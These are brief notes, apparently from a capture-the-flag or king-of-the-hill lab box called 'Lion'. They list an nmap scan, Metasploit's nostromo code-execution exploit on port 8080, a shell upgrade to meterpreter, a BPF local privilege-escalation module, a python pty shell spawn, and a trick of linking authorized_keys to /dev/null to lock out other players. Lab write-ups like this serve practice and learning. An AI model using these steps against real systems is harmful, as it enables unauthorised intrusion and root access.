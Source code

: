 Lion

- nmap scan for flag on random port

`msfconsole` `use exploit/multi/http/nostromo_code_exec` port 8080

`use post/multi/manage/shell_to_meterpreter`

- To prevent others from following tutorial to ssh-keygen, `mkdir .ssh`, `ln -s /dev/null .ssh/authorized_keys`

`background`

`use exploit/linux/local/bpf_sign_extension_priv_esc`

`python3 -c 'import pty; pty.spawn("/bin/bash")'` to get full shell